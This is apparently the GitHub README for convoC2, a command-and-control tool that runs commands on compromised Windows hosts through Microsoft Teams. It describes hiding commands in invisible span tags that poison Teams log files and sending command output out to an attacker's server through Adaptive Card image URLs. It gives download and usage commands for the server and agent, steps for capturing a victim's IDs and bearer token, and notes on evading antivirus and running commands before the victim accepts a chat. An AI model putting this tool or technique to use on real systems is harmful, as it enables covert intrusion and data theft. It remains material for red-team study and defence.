 <h1 align="center">convoC2</h1>

## Table of Contents
- [Introduction](#introduction)
- [Demo](#demo)
- [Usage](#usage)
- [Requirements](#requirements)
- [Inspiration](#inspiration)
- [Contribute](#contribute)

## Introduction
Command and Control infrastructure that allows Red Teamers to execute system commands on compromised hosts through Microsoft Teams.  
It infiltrates data into hidden span tags in Microsoft Teams messages and exfiltrates data by embedding command outputs in Adaptive Cards image URLs, triggering out-of-bound requests to a C2 server.  
The lack of direct communication between the victim and the attacker, combined with the fact that the victim only sends http requests to Microsoft servers and antiviruses don't look into MS Teams log files, makes detection more difficult.  

![convoC2-Architecture](https://github.com/user-attachments/assets/d126a4cb-dc62-4a18-8b89-3501a4319d6e)

## Demo
The following video demonstrates the use of the server to control two compromised hosts: one running the new Teams on Windows 11 and the other running the old Teams on Windows 10. In the first case, the attacker is not in the same org as the victim.

https://github.com/user-attachments/assets/d9fcccc1-de73-49cd-aaa7-df53303dbc6a

**Note:** In the first case the victim already accepted the chat with the external attacker, but in a real scenario where the attacker starts the chat with the victim for the first time, the victim would need to confirm the chat with the attacker. This is not a problem: because messages are being cached in the log file anyways, the **commands are received and executed even if the victim has not visualized or accepted the chat yet**.

## Usage
**Server**
```
wget https://github.com/cxnturi0n/convoC2/releases/download/v0.1.0-alpha/convoC2_server_amd64.tar.gz
tar -xzvf convoC2_server_amd64.tar.gz --one-top-level
```
```
root@convoC2-server-VPS:~# ./convoC2_server_amd64 -h
Usage of convoC2 server:
  -t, --msgTimeout  How much to wait for command output (default 30 s)
  -b, --bindIp      Bind IP address (default 0.0.0.0)
```
**Agent**
```
wget https://github.com/cxnturi0n/convoC2/releases/download/v0.1.0-alpha/convoC2_agent.tar.gz
tar -xzvf convoC2_agent.tar.gz --one-top-level
```
```
C:\Windows>convoC2_agent.exe -h
Usage of convoC2 agent:
  -v, --verbose   Verbose logging (default false)
  -s, --server    C2 server URL (i.e. http://10.11.12.13/)
  -t, --timeout   Teams log file polling timeout [s] (default 1)
  -w, --webhook   Teams Webhook POST URL
  -r, --regex     Regex to match command (default "<span[^>]*aria-label=\"([^\"]*)\"[^>]*></span>")
```

## Requirements
To get it working, you will need to set up a few things:
- [**Create Teams channel with Workflow Incoming Webhook**](#Create-Teams-channel-with-Workflow-Incoming-Webhook): this is the place where the adaptive cards containing the output will be received. <ins>**It is important to keep a browser window with this channel opened while using the server**</ins>, otherwise the server will not receive messages from the agents.

![WebhookChannel](https://github.com/user-attachments/assets/ea65daad-9274-4574-835b-107f468a1d6e)

- [**Fetch Ids and Auth Token**](#Fetch-Ids-And-Auth-Token): Teams initializes a chat with a POST to `https://teams.microsoft.com/api/chatsvc/emea/v1/threads` with the unique ids of the victim and the attacker in the body. In the response, the threadId will be returned in the path of the Location header url.
  The Bearer token of the same request is used to authenticate to `https://teams.microsoft.com/api/chatsvc/emea/v1/users/ME/conversations/<threadId>/messages`, which is the endpoint for sending messages. So we just need to grab these three things and the server will take care of the rest.
- Make sure you have a public facing host allowing inbound HTTP traffic on port 80.
- Teams needs to be running on the victim host, in the background is fine too.

After starting the server you can receive new agents and control them, using the data previously obtained for authentication. Check the demo out for a usage example.

### Create Teams channel with Workflow Incoming Webhook
First of all, you will need to create a Teams channel.  

![CreateTeams](https://github.com/user-attachments/assets/8f4da165-4c94-4685-b06c-a938cde8cf90)  

Right click on the three dots, then click on "Workflows".    

![CreateTeams_1](https://github.com/user-attachments/assets/50c0fe37-d81c-4fc6-b9ec-81a287cbcedd)  

In the search bar type "Webhook" and click on the "Post to a channel when a webhook request is received".  

![CreateTeams_5](https://github.com/user-attachments/assets/3f7d7221-cc84-457b-9057-610e60944c61)  

Continue with the default settings and finally copy the url.  

![Create_Teams_6](https://github.com/user-attachments/assets/45030146-3575-4588-9fac-ee2bb6079bbc)


### Fetch Ids and Auth Token
Start by looking for the victim.  

![GetOrgIds](https://github.com/user-attachments/assets/c75b47e3-5503-473b-8be6-a04d041e9422)  

After selecting the victim account, with the web proxy intercepting the requests, you can send a dummy message.  

![GetOrgIds_1](https://github.com/user-attachments/assets/76533c54-2c71-4d0d-94dc-5d638a33242c)  

Save the two ids present in the `api/chatsvc/emea/v1/threads` request then DROP the request. The auth token will be the Bearer token of the same request.  

![GetOrgIds_2](https://github.com/user-attachments/assets/b0f9d9bc-df2d-4527-8a87-301babd505b4)

## Inspiration
This infrastructure was inspired by the [Teams GIFShell research](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) made by [Bobbyrsec](https://www.linkedin.com/in/bobby-rauch/).  
Initially my purpose was to replicate the issue, but the solution appeared to be partially fixed. The research involved injecting commands into Base64-encoded GIFs, but these were no longer being displayed correctly: an icon of corrupted image would appear in the chat instead, resulting in the victim protentially starting to suspect.  
After testing various methods, I noticed that it was possible to **embed commands directly into messages rather than in GIFs or images**: sending multiple images is more likely to raise suspicion compared to sending simple messages, right?
Initially I considered embedding commands in tags like `<script>`, `<meta>`, or custom tags, but all were filtered out. Eventually, embedding commands in the `aria-label` attribute of `<span>` tags with `display:none` was successful: the victim would only see the message, but the hidden command would actually poison the Teams log file.  

![TeamsLogPoisoning](https://github.com/user-attachments/assets/b602ef7f-fabc-42a0-bd68-6b7d7f152a86)

The server TUI has been developed using the awesome Go [BubbleTea framework](https://github.com/charmbracelet/bubbletea).

## Contribute
If you find bugs or want to improve the project feel free to open a pull request and I will be glad to review and eventually merge your changes.
Short term todos are:
- Message AES encryption
- Keepalive to detect when agent is dead
- Powershell version of the Agent
